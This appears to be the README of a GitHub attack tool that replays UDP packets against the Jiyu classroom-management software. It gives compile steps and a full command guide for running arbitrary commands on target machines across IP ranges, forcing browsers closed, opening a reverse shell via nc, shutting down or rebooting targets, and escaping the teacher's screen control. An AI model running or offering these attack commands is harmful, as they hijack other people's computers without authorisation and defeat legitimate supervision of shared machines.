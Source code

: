 # Jiyu-UDP-Attack-Cpp
A UDP replay attack code for Jiyu, written in C++.

中文文档见 [README_zh.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README_zh.md)

## Compile
Required C++ version: C++14

Compile command:

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### GCC / MinGW (On Windows)
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

### GCC / MinGW (On Linux)
```bash
g++ main.cpp -o main -std=c++14
```

Note when using GCC / MinGW compiler on Windows:  
Make sure Windows-related library is in the library directory.  
Do not forget the compile argument `-lws_32`. If not using command line, add this argument to the compile options in your IDE.

## Usage
Start UI by simply run the program or call:
```bash
main
```

Or, run on command line:
```bash
main [-h(--help) |
  [-ip <IP>] [-p <Port>] [-msg <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-ncport <NC Port>]]
```

Arguments:
| Argument | Description | Default |
| -------- | ----------- | ------- |
| `-h(--help)` | Show help text. | |
| `-ip <IP>` | Specify the IP of target. | |
| `-p <Port>` | Specify which port to listen to. | 4705 |
| `-msg <Message>` | Specify the message to send. | |
| `-c <Command>` | Command to run on target machine. | |
| `-e <Extra Option>` | Load extra option. | |
| `-l <Loop Count>` | Specify the loop count of the command. | 1
| `-c <Loop Time Interval>` | Specify the loop's interval time of the command, in seconds. | 22 |
| `-ncport <NC Port>` | Specify which port for `nc` command to listen to. | 8888 |

Available options for `<Extra Option>` of `-e` argument:
| Option | Description |
| ------ | ----------- |
| `r` | Reboot the target machine. |
| `s` | Shutdown the target machine. |
| `g` | Get your current IP address and the port which Student Terminal listens to. |
| `nc` | Reverse shell. Needs Internet access on target machine. Use command `exit` to exit. |
| `break` | Get out of screen control. Needs administrator access. |
| `continue` | Recover screen control. |

Target IP available for `<IP>` of `-ip` argument:
- A direct IP. eg. `192.168.1.1`
- An IP segment, ends with `/24`. eg. `192.168.1.1/24`
- An IP segment, represented by `-`. eg. `192.168.1.2-10`  
Note:  
Only the last number of an IP is availble to be a segment.  
This is illegal: `192.168.1-80.1`

### Examples
1. Get your IP address and the port which Student Terminal listens to:

```bash  
main -e g
```

2. Get out of screen control:

Needs administrator access, mainly for MpsSvc.
```bash
main -e break
```

3. Recover screen control:

```bash
main -e continue
```

4. Send message:

Send a piece of message "Hello!" to target machine with IP `192.168.1.1`:
```bash
main -ip 192.168.1.1 -msg "Hello!"
```

If the port which Student Terminal listens to is **4605**, use `-p <Port>` to specify the port. Send a piece of message "Hello!" to target machine with IP `192.168.1.12`:
```bash
main -ip 192.168.1.12 -p 4605 -msg "Hello!"
```

5. Run command:

Pop up a calculator for target machines with ip `192.168.1.12` to `192.168.1.137`:
```bash
main -ip 192.168.1.12-137 -c calc.exe
```

If the command to run has space in it, use a pair of quote to wrap:
```bash
main -ip 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. Reverse shell:

The ip of target machine should **not** be a segment.
```bash
main -ip 192.168.1.1 -e nc
```

7. Shutdown and reboot:

Shutdown:
```bash
main 192.168.1.1 -e s
```

Reboot:
```bash
main 192.168.1.1 -e r
```

8. Loop command:

Send message to target machines with IP `192.168.1.0` to `192.168.1.255`, continue to execute after 50s, totally 3 times:
```bash
main -ip 192.168.1.1/24 -msg "hello,baby!" -l 3 -t 50
```

## About
Inspired by: [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack)

## License
[MIT License](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
